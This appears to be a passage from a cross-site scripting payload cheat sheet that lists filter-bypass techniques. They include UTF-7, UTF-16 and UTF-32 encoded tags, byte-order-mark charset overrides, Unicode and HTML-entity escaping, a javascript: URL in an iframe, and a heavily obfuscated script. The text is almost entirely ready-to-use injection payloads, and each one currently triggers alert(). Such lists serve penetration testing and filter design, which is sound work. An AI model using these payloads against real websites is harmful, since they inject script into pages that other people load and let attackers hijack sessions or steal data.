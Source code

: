Bypass using UTF-7

```javascript
+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
```

Bypass using UTF-16be

```javascript
%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
```

Bypass using UTF-32

```js
%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```

Bypass using BOM - Byte Order Mark (The page must begin with the BOM character.)
BOM character allows you to override charset of the page

```js
BOM Character for UTF-16 Encoding:
Big Endian : 0xFE 0xFF
Little Endian : 0xFF 0xFE
XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

BOM Character for UTF-32 Encoding:
Big Endian : 0x00 0x00 0xFE 0xFF
Little Endian : 0xFF 0xFE 0x00 0x00
XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
```


Bypass using weird encoding or native interpretation to hide the payload (alert())

```javascript
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
```